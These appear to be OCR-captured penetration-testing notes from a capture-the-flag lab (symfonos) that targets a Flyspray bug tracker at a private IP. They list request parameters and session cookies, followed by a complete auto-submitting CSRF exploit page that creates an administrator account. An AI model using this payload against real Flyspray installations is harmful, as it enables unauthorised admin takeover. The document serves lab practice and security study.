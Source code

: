 " method="get"\>
\<select name="project" onchange="document\.getElementById\('projectselectorform'\)\.submit\(\)"\>
\<option value="0"\>All Projects\</option\>\<optgroup\>\<option value="1" selected="selected"\>symfonos bugs\</option\>\</optgroup\>	

\<input id="s\_searchstate" type="checkbox" name="advancedsearch"/\>
\<label id="searchstateactions" for="s\_searchstate"\>Advanced\</label\>
\<div id="sc2" class="switchcontent"\>
\<fieldset class="advsearch\_misc"\>

Ajax\.Autocompleter\('opened', 'opened\_complete', 'http://10\.1\.20\.110/flyspray/js/callbacks/usersearch\.php', \{\}\)




**Index\.html Params:
**do=toplevel
do=tasklist
do=register
do=lastpw
do=authenticate
order=id
sort
project=1

do,order,sort,project

**Cookie:**flyspray=vqdon292f5oe97u5mq1sh9ffsir24583; flyspray\_userid=2; flyspray\_passhash=64ZSnpVGSFAsc; lang=en\-US; i\_like\_gitea=11a20aa94131e2a5; \_csrf=rY4OYSPLkUiba6KzUf6EO23ncXw6MTU4NjQwODQyNTQ3NDMyMjA1Ng

\<input type="hidden" name="csrftoken" id="deletesearchtoken" value="50620769"\>

**other pages:
**flyspray/js/callbacks/usersearch\.php
[/flyspray/index.php?do=tasklist&amp;project=1&amp;order=id&amp;sort=desc](#http://view-source:http://10.1.20.110/flyspray/index.php?do=tasklist&project=1&order=id&sort=desc)

[/flyspray/index.php?do=details&amp;task_id=1](#http://view-source:http://10.1.20.110/flyspray/index.php?do=details&task_id=1)
"

Find a bug in older 0\.996 flyspray, allowing me to create a Cross site forgery with the following HTML\.

However, now flyspray uses CRSF tokens to disallow this\.  I think I may be able to overcome this by including the CSRF token, lets see if this version allows it\.  HTML:

\<html\>
\<body onload="javascript:document\.forms\[0\]\.submit\(\)"\>
\<H2\>CSRF Exploit to add ADMIN account\</H2\>
\<form method="POST" name="form0" action="[http://10.1.20.110:80/flyspray/index.php?do=admin&area=newuser">](#http://10.1.20.110:80/flyspray/index.php?do=admin&area=newuser">)

\<input type="hidden" name="action" value="admin\.newuser"/\>
\<input type="hidden" name="do" value="admin"/\>
\<input type="hidden" name="area" value="newuser"/\>
\<input type="hidden" name="user\_name" value="root"/\>
\<input type="hidden" name="user\_pass" value="12345678"/\>
\<input type="hidden" name="user\_pass2" value="12345678"/\>
\<input type="hidden" name="real\_name" value="root"/\>
\<input type="hidden" name="email\_address" value="root@root\.com"/\>
\<input type="hidden" name="jabber\_id" value=""/\>
\<input type="hidden" name="notify\_type" value="0"/\>
\<input type="hidden" name="time\_zone" value="0"/\>
\<input type="hidden" name="group\_in" value="1"/\>
\</form\>
\</body\>
\</html\>

